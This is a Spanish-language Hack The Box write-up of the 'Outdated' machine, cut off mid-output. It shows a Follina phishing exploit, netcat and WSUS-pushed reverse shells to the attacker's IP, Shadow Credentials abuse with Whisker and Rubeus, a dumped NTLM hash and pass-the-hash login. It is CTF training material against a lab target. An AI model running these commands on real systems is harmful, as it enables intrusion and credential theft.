




+++
author = "Andrés Del Cerro"
title = "Hack The Box: Outdated Writeup | Medium"
date = "2024-08-26"
description = ""
tags = [
    "HackTheBox",
    "Outdated",
    "Writeup",
    "Cybersecurity",
    "Penetration Testing",
    "CTF",
    "Reverse Shell",
    "Privilege Escalation",
    "RCE",
    "Exploit",
    "Windows",
    "SMB Enumeration",
    "CVE-2022-30190",
    "Follina",
    "Bloodhound",
    "Abusing AddKeyCredentialLink",
    "Writing msDS-KeyCredentialLink",
    "User Pivoting",
    "Abusing WSUS",
    "Privilege Escalation"
]

+++

# Hack The Box: Outdated Writeup

Welcome to my detailed writeup of the medium difficulty machine **"Outdated"** on Hack The Box. This writeup will cover the steps taken to achieve initial foothold and escalation to root.

# TCP Enumeration

```console
$ rustscan -a 10.129.229.239 --ulimit 5000 -g
10.129.229.239 -> [25,53,88,135,139,389,445,464,593,636,3268,3269,5985,8530,8531,9389,49667,49691,49692,49914,49940,49961]
```

```shell
cat allPorts
# Nmap 7.94SVN scan initiated Mon Aug 26 21:11:16 2024 as: nmap -p25,53,88,135,139,389,445,464,593,636,3268,3269,5985,8530,8531,9389,49667,49691,49692,49914,49940,49961 -sCV -oN allPorts 10.129.229.239
Nmap scan report for 10.129.229.239
Host is up (0.040s latency).

PORT      STATE SERVICE       VERSION
25/tcp    open  smtp          hMailServer smtpd
| smtp-commands: mail.outdated.htb, SIZE 20480000, AUTH LOGIN, HELP
|_ 211 DATA HELO EHLO MAIL NOOP QUIT RCPT RSET SAML TURN VRFY
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-08-27 01:11:25Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: outdated.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC.outdated.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC.outdated.htb
| Not valid before: 2023-12-13T00:17:36
|_Not valid after:  2024-12-12T00:17:36
|_ssl-date: 2024-08-27T01:12:58+00:00; +6h00m02s from scanner time.
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: outdated.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2024-08-27T01:12:57+00:00; +6h00m01s from scanner time.
| ssl-cert: Subject: commonName=DC.outdated.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC.outdated.htb
| Not valid before: 2023-12-13T00:17:36
|_Not valid after:  2024-12-12T00:17:36
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: outdated.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC.outdated.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC.outdated.htb
| Not valid before: 2023-12-13T00:17:36
|_Not valid after:  2024-12-12T00:17:36
|_ssl-date: 2024-08-27T01:12:58+00:00; +6h00m02s from scanner time.
3269/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: outdated.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2024-08-27T01:12:57+00:00; +6h00m02s from scanner time.
| ssl-cert: Subject: commonName=DC.outdated.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC.outdated.htb
| Not valid before: 2023-12-13T00:17:36
|_Not valid after:  2024-12-12T00:17:36
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
8530/tcp  open  http          Microsoft IIS httpd 10.0
|_http-title: Site doesn't have a title.
| http-methods: 
|_  Potentially risky methods: TRACE
8531/tcp  open  unknown
9389/tcp  open  mc-nmf        .NET Message Framing
49667/tcp open  msrpc         Microsoft Windows RPC
49691/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49692/tcp open  msrpc         Microsoft Windows RPC
49914/tcp open  msrpc         Microsoft Windows RPC
49940/tcp open  msrpc         Microsoft Windows RPC
49961/tcp open  msrpc         Microsoft Windows RPC
Service Info: Hosts: mail.outdated.htb, DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2024-08-27T01:12:14
|_  start_date: N/A
|_clock-skew: mean: 6h00m01s, deviation: 0s, median: 6h00m01s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Aug 26 21:12:56 2024 -- 1 IP address (1 host up) scanned in 100.77 seconds
```

# UDP Enumeration

```shell
sudo nmap --top-ports 1500 -sU --min-rate 5000 -n -Pn 10.129.229.239 -oN allPorts.UDP
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-26 21:12 CEST
Nmap scan report for 10.129.229.239
Host is up (0.039s latency).
Not shown: 1497 open|filtered udp ports (no-response)
PORT    STATE SERVICE
53/udp  open  domain
88/udp  open  kerberos-sec
123/udp open  ntp

Nmap done: 1 IP address (1 host up) scanned in 0.96 seconds
```

Detectamos que nos enfrentamos contra un entorno de directorio activo ya que están puertos expuestos típicos como 88/TCP Keberos, 389/TCP LDAP.

También encontramos un dominio, `outdated.htb`, lo agregamos al `/etc/hosts`, encontramos el nombre NS del DC `DC.outdated.htb`

También vemos un servidor web IIS por el puerto 8530/TCP

# DNS Enumeration
 Siempre que veo un servidor DNS me gusta enumerarlo para ver si podemos encontrar mas subdominios.
 
 ```shell
 dnsenum -f /opt/SecLists/Discovery/DNS/subdomains-top1million-110000.txt -dnsser
ver 10.129.229.239 outdated.htb
```

Nos reporta un subdominio `mail.outdated.htb`, `client.outdated.htb` y `wsus.outdated.htb`, los añadimos también al `/etc/hosts`

No podemos hacer una transferencia de zona.
```shell
dig axfr outdated.htb @10.129.229.239

; <<>> DiG 9.18.24-1-Debian <<>> axfr outdated.htb @10.129.229.239
;; global options: +cmd
; Transfer failed.
```

# SMB Enumeration
```shell
smbmap -H 10.129.229.239 -u 'null'
[+] Guest session       IP: 10.129.229.239:445  Name: wsus.outdated.htb                                 
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        C$                                                      NO ACCESS       Default share
        IPC$                                                    READ ONLY       Remote IPC
        NETLOGON                                                NO ACCESS       Logon server share 
        Shares                                                  READ ONLY
        SYSVOL                                                  NO ACCESS       Logon server share 
        UpdateServicesPackages                                  NO ACCESS       A network share to be used by client systems for collecting all software packages (usually applications) published on this WSUS system.
        WsusContent                                             NO ACCESS       A network share to be used by Local Publishing to place published content on this WSUS system.
        WSUSTemp                                                NO ACCESS       A network share used by Local Publishing from a Remote WSUS Console Instance.
```

Haciendo uso de una null session detectamos varios recursos.

Me interesa el recurso `Shares` ya que el otro recurso compartido al que tenemos acceso es `IPC$`

```shell
smbclient \\\\10.129.229.239\\Shares -U 'null' -N
```

Vemos un fichero `NOC_Reminder.pdf`
```shell
smb: \> dir
  .                                   D        0  Mon Jun 20 17:01:33 2022
  ..                                  D        0  Mon Jun 20 17:01:33 2022
  NOC_Reminder.pdf                   AR   106977  Mon Jun 20 17:00:32 2022
```

Nos lo descargamos.
```shell
smb: \> get NOC_Reminder.pdf
getting file \NOC_Reminder.pdf of size 106977 as NOC_Reminder.pdf (458,2 KiloBytes/sec) (average 458,2 KiloBytes/sec)
```

Leyendo el PDF me interesa esto:
> please assist our NOC by e-mailing a link to any internal web applications to
> itsupport@outdated.htb so we can get them added back into our monitoring platform for alerts and notifications.

Pide que enviemos un correo con un link a `itsupport@outdated.htb` para poder añadir este link a las plataformas de monitorización alerta y notificaciones.

# RPC Enumeration

```shell
rpcclient -N -U "" 10.129.229.239
rpcclient $> enumdomusers
result was NT_STATUS_ACCESS_DENIED
rpcclient $> enumdomgroups
result was NT_STATUS_ACCESS_DENIED
```

# LDAP Enumeration
```shell
ldapsearch -H ldap://outdated.htb/ -x -s base -b '' "(objectClass=*)" "*"
```

Podemos recuperar algo de información pero nada interesante.

# HTTP Enumeration

`whatweb` no me reporta nada que no sepamos.
```shell
whatweb http://outdated.htb:8530
http://outdated.htb:8530 [200 OK] Country[RESERVED][ZZ], HTTPServer[Microsoft-IIS/10.0], IP[10.129.229.239], Microsoft-IIS[10.0], X-Powered-By[ASP.NET]
```

Fuzzeando no encuentro nada relevante.

# Exploiting Follina -> Foothold

En el PDF que hemos visto antes nos adjuntaban una tabla con vulnerabilidades que supuestamente todavía no están parcheadas.

La primera de todas es el `CVE-2022-30190`, mas conocido como Follina.


Podemos utilizar [este PoC](https://github.com/whokilleddb/Follina) para realizar la explotación.

Nos podemos copiar el one-liner en powershell de [revshells.com](https://revshells.com)

```shell
python3 follina_exploit.py -c "powershell -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AY......"
```

Ahora nos vamos a dirigir a esta ruta y vamos a servir el `index.html` a través del puerto 80, por alguna razón solo consigo que este link se abra cuando se comparte un link sin especificar el puerto.



```shell
cd /tmp/follina_0osyx6x_/www/

sudo python3 -m http.server 80
```

Ahora enviamos el correo electrónico a la dirección que habíamos encontrado antes con el enlace malicioso.

```shell
swaks --to itsupport@outdated.htb --from pointedsec@gmail.com --server mail.outd
ated.htb --body "http://10.10.14.125/" --header "Subject:Internal Web App Request"
```

Por alguna razón no funciona.

Como tiene el SMB abierto vamos a compartirnos el `netcat` y vamos a enviarnos una revshell.

Nos copiamos el netcat.
```shell
cp /opt/SecLists/Web-Shells/FuzzDB/nc.exe .
```

Servimos este archivo por SMB
```shell
sudo impacket-smbserver -smb2support smbFolder .
Impacket v0.12.0.dev1+20240819.165705.f98c9870 - Copyright 2023 Fortra

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
08/26/2024 10:20:57 PM: INFO: Config file parsed
```

Ahora enviamos el correo...
```shell
swaks --to itsupport@outdated.htb --from pointedsec@gmail.com --server mail.outdated.htb --body "http://10.10.14.125/" --header "Subject:Internal Web App Request"
```

Ahora cambiamos el comando del exploit para utilizar el `netcat` que estamos sirviendo por el SMB y mandarnos una revshell.
```shell
python3 follina_exploit.py -c "cmd.exe /c \\\\10.10.14.125\\smbFolder\\nc.exe 10
.10.14.125 443 -e cmd.exe"
```

Podemos ver que capturamos el hash NTLMv2 aunque no tenemos suerte crackeándolo.
```shell
btables::OUTDATED:aaaaaaaaaaaaaaaa:4f766168c3ca8028d88c51e98dc81a75:0101000000000000006ca9caf5f7da0135533e5bdf5a4d33000000000100100048006e0059005700760078006c006c000300100048006e0059005700760078006c006c000200100063006900710045005100470049005200040010006300690071004500510047004900520007000800006ca9caf5f7da0106000400020000000800300030000000000000000000000000200000a52701887bc37024800a419b24ee2e442f357d2961a11062e59a2a6f8b7aa81c0a001000000000000000000000000000000000000900220063006900660073002f00310030002e00310030002e00310034002e003100320035000000000000000000
```

Y conseguimos acceso.
```shell
sudo rlwrap -cEr nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.14.125] from (UNKNOWN) [10.129.229.239] 49849
Microsoft Windows [Version 10.0.19043.928]
(c) Microsoft Corporation. All rights reserved.

C:\Users\btables\AppData\Local\Temp\SDIAG_9caee2d7-dad7-40ff-bc98-6b0868f102ae>whoami
whoami
outdated\btables
```

Ganamos acceso como el usuario `btables`

Podemos comprobar que estamos en otro equipo que no es el DC.
```shell
C:\Users\btables\AppData\Local\Temp\SDIAG_9caee2d7-dad7-40ff-bc98-6b0868f102ae>ipconfig
ipconfig

Windows IP Configuration


Ethernet adapter Ethernet:

   Connection-specific DNS Suffix  . : 
   IPv4 Address. . . . . . . . . . . : 172.16.20.20
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : 172.16.20.1
```

```shell
C:\Users\btables>hostname
hostname
client
```

## Bloodhound time
Después de pasar el `winpeas.exe` y no encontrar casi nada relevante, ni si quiera la flag de usuario, decidí pasar el `SharpHound.exe` para hacer un análisis con bloodhound.

Nos lo pasamos a la máquina víctima.
```shell
C:\Users\btables\Documents>copy \\10.10.14.125\smbFolder\SharpHound.exe .
copy \\10.10.14.125\smbFolder\SharpHound.exe .
        1 file(s) copied.
```

Lo ejecutamos y esperamos a que termine...
```shell
C:\Users\btables\Documents>.\SharpHound.exe -c All
```

Ahora nos copiamos el resultado a nuestro equipo.
```shell
C:\Users\btables\Documents>copy 20240826183058_BloodHound.zip \\10.10.14.125\smbFolder\20240826183058_BloodHound.zip
copy 20240826183058_BloodHound.zip \\10.10.14.125\smbFolder\20240826183058_BloodHound.zip
        1 file(s) copied.
```

Iniciamos la base de datos `neo4j` que es la que usa `bloodhound`
```shell
sudo neo4j start
Directories in use:
home:         /usr/share/neo4j
config:       /usr/share/neo4j/conf
logs:         /etc/neo4j/logs
plugins:      /usr/share/neo4j/plugins
import:       /usr/share/neo4j/import
data:         /etc/neo4j/data
certificates: /usr/share/neo4j/certificates
licenses:     /usr/share/neo4j/licenses
run:          /var/lib/neo4j/run
Starting Neo4j.
Started neo4j (pid:8746). It is available at http://localhost:7474
There may be a short delay until the server is ready.
```

Ahora ejecutamos el `bloodhound`
```shell
bloodhound &
[1] 9245
disown %1
```

Cargamos el archivo zip en el `bloodhound`


Encontramos lo siguiente.

El usuario `btables` pertenece al grupo `ITSTAFF`, este grupo tiene el privilegio `AddKeyCredentialLink` hacia el usuario `sflower` que a su vez pertenece al  grupo `Remote Management Users` por lo cual mediante `WinRM` podríamos ganar una consola en el DC.


> The members of the group ITSTAFF@OUTDATED.HTB have the ability to write to the "msds-KeyCredentialLink" property on SFLOWERS@OUTDATED.HTB. Writing to this property allows an attacker to create "Shadow Credentials" on the object and authenticate as the principal using kerberos PKINIT.

Es decir, podemos crear unas Shadow Credentials para poder autenticarnos como este usuario sin cambiar las credenciales reales de este usuario usando su hash NTLM.

Para ello podemos descargarnos [Whisker.exe](https://github.com/jakobfriedl/precompiled-binaries/raw/main/Specific/Whisker.exe) y moverlo a la máquina víctima.

```shell
C:\Users\btables\Documents>copy \\10.10.14.125\smbFolder\Whisker.exe .
copy \\10.10.14.125\smbFolder\Whisker.exe .
        1 file(s) copied.
```

Ahora también necesitamos movernos el [Rubeus](https://github.com/jakobfriedl/precompiled-binaries/raw/main/Rubeus.exe) a la máquina víctima.

Ahora ejecutamos el `Whisker.exe`
```shell
C:\Users\btables\Documents>.\Whisker.exe add /target:sflowers
.\Whisker.exe add /target:sflowers
[*] No path was provided. The certificate will be printed as a Base64 blob
[*] No pass was provided. The certificate will be stored with the password 2Y8ae12sDimFg3QJ
[*] Searching for the target account
[*] Target user found: CN=Susan Flowers,CN=Users,DC=outdated,DC=htb
[*] Generating certificate
....
```

Esto nos generará un comando para recuperar las credenciales con Rubeus.

Simplemente lo copiamos y lo pegamos.

Estuve teniendo problemas con la shell ya que `Rubeus` no me reportaba el output, así que lo que hice fue exportar el certificado a un archivo y así utilizarlo desde `Rubeus`.

```shell
PS C:\Users\btables\Documents> .\Whisker.exe add /target:sflowers /path:cert.pfx
.\Whisker.exe add /target:sflowers /path:cert.pfx
[*] No pass was provided. The certificate will be stored with the password LRBT7MkOUQuRDTLp
[*] Searching for the target account
[*] Target user found: CN=Susan Flowers,CN=Users,DC=outdated,DC=htb
[*] Generating certificate
[*] Certificate generaged
[*] Generating KeyCredential
[*] KeyCredential generated with DeviceID 822fd180-c3b2-4f78-825a-50d9291f9aa0
[*] Updating the msDS-KeyCredentialLink attribute of the target object
[+] Updated the msDS-KeyCredentialLink attribute of the target object
[*] Saving the associated certificate to file...
[*] The associated certificate was saved to cert.pfx
[*] You can now run Rubeus with the following syntax:

Rubeus.exe asktgt /user:sflowers /certificate:cert.pfx /password:"LRBT7MkOUQuRDTLp" /domain:outdated.htb /dc:DC.outdated.htb /getcredentials /show
```

```shell
PS C:\Users\btables\Documents> .\Rubeus.exe asktgt /user:sflowers /certificate:cert.pfx /password:"LRBT7MkOUQuRDTLp" /domain:outdated.htb /dc:DC.outdated.htb /getcredentials /show
.\Rubeus.exe asktgt /user:sflowers /certificate:cert.pfx /password:"LRBT7MkOUQuRDTLp" /domain:outdated.htb /dc:DC.outdated.htb /getcredentials /show

   ______        _                      
  (_____ \      | |                     
   _____) )_   _| |__  _____ _   _  ___ 
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.3.2 

[*] Action: Ask TGT

[*] Using PKINIT with etype rc4_hmac and subject: CN=sflowers 
[*] Building AS-REQ (w/ PKINIT preauth) for: 'outdated.htb\sflowers'
[*] Using domain controller: 10.129.229.239:88
[+] TGT request successful!
[*] base64(ticket.kirbi):

      doIF0jCCBc6gAwIBBaEDAgEWooIE5zCCBONhggTfMIIE26ADAgEFoQ4bDE9VVERBVEVELkhUQqIhMB+g
      AwIBAqEYMBYbBmtyYnRndBsMb3V0ZGF0ZWQuaHRio4IEnzCCBJugAwIBEqEDAgECooIEjQSCBIkNgqUw
      FxPGj0Vpi4YqjMO7HqtC1sfkKNiM6+jvEGio9pJqaZGJcSN4uMVLljmRVKMPWOISyGfGxod1P6d7iKsM
      WBSiJEFkS3o/E/PQ/hMCMOVSsd62Wct8vLe3jRfXZqUBFTWjDPg8tjT3cG8+SGWGt8w4OK4cK2URfQFV
      63mqcBHOyZeEtCEZ5RzXiD6A2yuaozyAnwQF9ufUNIxOoTLIdLE7bI+3B730X3iWx7/Stkg9oiJKfHrI
      lwrbY833wkAT9VIZrXfKsf3w58dZHr7aEUPOWKMOsAKnazIZw7Dgp5VYC1sUz+/RWxFV3VdWrYZ+tNGt
      3inQ2ysFTf88UIGwB4sr0cSSPjzmjo/vAawShKwUvA6Cl1F+cDpVQOtVH5aslEmYj2pGfBKWP6O2TLSg
      bsO5g++0e9suCd+XgW8XT1PHNP2x+GNziA48ImUK99/C0IobPp1WMQlaDS2IeHoL4su47L8skTpDkmLm
      IBVXWxkSURCkwZ+tNgnWJalOuLlyxfcZklCvq0WHtyfxPoMGd9UZndKHu0RYkeHkj9Fr3v4KlLRFI1p6
      TRrhP/UKFg8wycDw/AsYFx56DSwAej2meABA/pBYrZm/imEyPAmvlfoh7mRC3eHnC3PR/NWouvV1ArRK
      7kEQ/oM7F57QVhmrnYF+nOB3XZUDNxMcJl0QampA14PdFJ8mKp5QdUt5nEd4o3K5eTCgsKOS9DJBRbvP
      qi9UNgRLMWLQ+lxxxaqsWbnQh69tQufSjc2wcECc6dDpvEMDJzC1v13Od++DrehUm8hi4SZ+BF9arbBH
      mXAVegpJbvLdgWjJ1o9SU1wcJwT7lrnmNiI9oUaVVeRIHjmN4hf47XGrXCqSNKhl7SBKjiqbjXvhxf+t
      QYzeoNznZlqrw6Lt8thf4yF8LcHwtXZdO6GzZ/2SE9gnf2A34QMQpFU8GwgGOY1v0uOH/kacYZ3MBXaU
      7E3OfGSWhYyoG24jfRrsGkXGzzzz7mvf28juQQYkbPTkVreWzP1nKdNGbZzyd+hhoPmSCynjQ51+gP7Z
      OnZMQ1AlG9VRxrmUOGWcfXvD8CPBXjKbdFNQQKY+btuGCA4Q+AfocMzUF0oEdVdrpUy9zDpITfH5WMge
      uo2VBoC+eaPFUCwVkhekVJrfVnOf7gy1kXdsIdGPT/+XL1OpQRxCN0o4lIfoqx6vsP2V2sA+ZIl6Luah
      +8jXX5fUkPP7S4bCqFyz6bciz+1HtNYotLtHrOz+b3XJOvq50smTUbnjVyTCgMpdrn6zaDaMeKRX57dr
      JqY2ot7WfIAD/Mt1fDiH7sae58dtyp88yNPsY5HA0PzRBDEXatHx04gpcLY5+vn4dDp839Z8h8/dxmz+
      UqcV6BzzBfz2yLrGApzJdoeNUHaQUQpgZaKid9OlqnW66xRjS/+wYrYZP5yzG3/+WtX6QfrzfyTyKMiq
      HS3VNZvyDQzo+YNnS0Q61DV5CXqizywvTGJyVgMPShTi0XC5CNtHG+mN/GMr5kxg9VCobc69faE40s7E
      HzjAWziXc/8P8Wl5zoxNr/2jgdYwgdOgAwIBAKKBywSByH2BxTCBwqCBvzCBvDCBuaAbMBmgAwIBF6ES
      BBAFrkBjShO/TIx+WQr1VmFToQ4bDE9VVERBVEVELkhUQqIVMBOgAwIBAaEMMAobCHNmbG93ZXJzowcD
      BQBA4QAApREYDzIwMjQwODI3MDI0NTM1WqYRGA8yMDI0MDgyNzEyNDUzNVqnERgPMjAyNDA5MDMwMjQ1
      MzVaqA4bDE9VVERBVEVELkhUQqkhMB+gAwIBAqEYMBYbBmtyYnRndBsMb3V0ZGF0ZWQuaHRi

  ServiceName              :  krbtgt/outdated.htb
  ServiceRealm             :  OUTDATED.HTB
  UserName                 :  sflowers (NT_PRINCIPAL)
  UserRealm                :  OUTDATED.HTB
  StartTime                :  8/26/2024 7:45:35 PM
  EndTime                  :  8/27/2024 5:45:35 AM
  RenewTill                :  9/2/2024 7:45:35 PM
  Flags                    :  name_canonicalize, pre_authent, initial, renewable, forwardable
  KeyType                  :  rc4_hmac
  Base64(key)              :  Ba5AY0oTv0yMflkK9VZhUw==
  ASREP (key)              :  9B41916C3A54EF74979703ADF94F0A0A

[*] Getting credentials using U2U

  CredentialInfo         :
    Version              : 0
    EncryptionType       : rc4_hmac
    CredentialData       :
      CredentialCount    : 1
       NTLM              : 1FCDB1F6015DCB318CC77BB2BDA14DB5
PS C:\Users\btables\Documents> 
```

Y ahí obtenemos un hash NTLM

Lo podemos comprobar con `netexec`
```shell
nxc smb 10.129.229.239 -u 'sflowers' -H '1FCDB1F6015DCB318CC77BB2BDA14DB5'
SMB         10.129.229.239  445    DC               [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC) (domain:outdated.htb) (signing:True) (SMBv1:False)
SMB         10.129.229.239  445    DC               [+] outdated.htb\sflowers:1FCDB1F6015DCB318CC77BB2BDA14DB5
```

Y podemos comprobar también si efectivamente está en el grupo `Remote Management Users`
```shell
nxc winrm 10.129.229.239 -u 'sflowers' -H '1FCDB1F6015DCB318CC77BB2BDA14DB5'
WINRM       10.129.229.239  5985   DC               [*] Windows 10 / Server 2019 Build 17763 (name:DC) (domain:outdated.htb)
WINRM       10.129.229.239  5985   DC               [+] outdated.htb\sflowers:1FCDB1F6015DCB318CC77BB2BDA14DB5 (Pwn3d!)
```

Y ya podemos conseguir una consola como `sflowers`
```shell
evil-winrm -i 10.129.229.239 -u sflowers -H '1FCDB1F6015DCB318CC77BB2BDA14DB5'
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\sflowers\Documents> whoami
outdated\sflowers
```

También podemos leer la flag de usuario.
```shell
*Evil-WinRM* PS C:\Users\sflowers\Desktop> type user.txt
201cccf8d3ce2...
```

# Privilege Escalation
Enumerando la máquina, vemos que `sflowers` pertenece a un grupo llamado `WSUS Administrators`

```shell
*Evil-WinRM* PS C:\Users\sflowers\Desktop> net user sflowers
User name                    sflowers
Full Name                    Susan Flowers
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            6/20/2022 11:04:09 AM
Password expires             Never
Password changeable          6/21/2022 11:04:09 AM
Password required            Yes
User may change password     No

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   8/26/2024 7:45:35 PM

Logon hours allowed          All

Local Group Memberships      *Remote Management Use*WSUS Administrators
Global Group memberships     *Domain Users
The command completed successfully.
```

Después de leer e investigar un rato me encontré [este post](https://labs.nettitude.com/blog/introducing-sharpwsus/) donde habla de un binario llamado SharpWSUS.exe

Nos vamos a descargar el repositorio y a compilarlo.
https://github.com/nettitude/SharpWSUS

Una vez lo tengamos en la máquina víctima, el primer paso es encontrar el servidor WSUS.
```shell
*Evil-WinRM* PS C:\Users\sflowers\Desktop> .\SharpWSUS.exe locate

 ____  _                   __        ______  _   _ ____
/ ___|| |__   __ _ _ __ _ _\ \      / / ___|| | | / ___|
\___ \| '_ \ / _` | '__| '_ \ \ /\ / /\___ \| | | \___ \
 ___) | | | | (_| | |  | |_) \ V  V /  ___) | |_| |___) |
|____/|_| |_|\__,_|_|  | .__/ \_/\_/  |____/ \___/|____/
                       |_|
           Phil Keeble @ Nettitude Red Team

[*] Action: Locate WSUS Server
WSUS Server: http://wsus.outdated.htb:8530

[*] Locate complete

```

El segundo paso sería inspeccionar para ver que equipos tenemos a nuestro alcance para poder hacer el movimiento lateral, en este caso sabemos que nuestro "target" es dc.outdated.htb

Parece ser que WSUS solo confía de binarios firmados por Microsoft, así que podemos utilizar `PsExec64.exe` para poder ejecutar nuestro comando deseado.

Sabiendo esto, podemos crear una tarea de actualización para que se nos mande una reverse shell a nuestra IP.
```shell
.\SharpWSUS.exe create /payload:"C:\ProgramData\ps.exe" /args:" -accepteula -s -d C:\ProgramData\nc.exe -e cmd.exe 10.10.14.125 443" /title:"pwnedbypointed"

...
*] Action: Create Update                                                                                                                                     
[*] Creating patch to use the following:                                                                                                                      
[*] Payload: ps.exe                                                                                                                                           
[*] Payload Path: C:\ProgramData\ps.exe                                                                                                                       
[*] Arguments:  -accepteula -s -d C:\ProgramData\nc.exe -e cmd.exe 10.10.14.125 443                                                                           
[*] Arguments (HTML Encoded):  -accepteula -s -d C:\ProgramData\nc.exe -e cmd.exe 10.10.14.125 443                                                            
                                                                                                                                                              
################# WSUS Server Enumeration via SQL ##################                                                                                          
ServerName, WSUSPortNumber, WSUSContentLocation                                                                                                               
-----------------------------------------------                                                                                                               
DC, 8530, c:\WSUS\WsusContent                                                                                                                                 
                                                                                          
ImportUpdate                                                                              
Update Revision ID: 46                                                                    
PrepareXMLtoClient                                                                        
InjectURL2Download                                                                        
DeploymentRevision                                                                        
PrepareBundle                                                                             
PrepareBundle Revision ID: 47                                                             
PrepareXMLBundletoClient                                                                  
DeploymentRevision                                                                        
                                                                                          
[*] Update created - When ready to deploy use the following command:                      
[*] SharpWSUS.exe approve /updateid:c8cc30c0-30dc-44d3-b583-c2efe3e30535 /computername:Target.FQDN /groupname:"Group Name"
                                                                                          
[*] To check on the update status use the following command:                              
[*] SharpWSUS.exe check /updateid:c8cc30c0-30dc-44d3-b583-c2efe3e30535 /computername:Target.FQDN                                        
                                                                                                                
[*] To delete the update use the following command:                                            
